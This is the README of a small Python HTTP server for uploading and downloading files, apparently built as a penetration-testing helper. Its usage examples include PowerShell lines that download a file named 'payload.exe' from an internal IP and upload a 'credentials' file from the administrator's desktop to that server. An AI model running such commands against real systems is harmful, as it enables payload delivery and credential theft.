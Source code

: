 # Multi-functions python HTTP Server
A HTTP Server for downloading or uploading file.

Usage:  
Start HTTP Server  
```bash
python3 HTTP_Server.py
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

sudo python3 HTTP_Server.py 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Option1:
Download or upload file using web browser
Visit http://[host.ip]:8080

Option2:
Download file  
`Invoke-WebRequest -Uri http://192.168.49.66:8080/payload.exe -OutFile payload.exe`  
Upload file  
`Invoke-Restmethod -uri http://192.168.49.66:8080/credentials.zip -Method Put -Infile C:\\users\\administrator\\desktop\\credentials`  

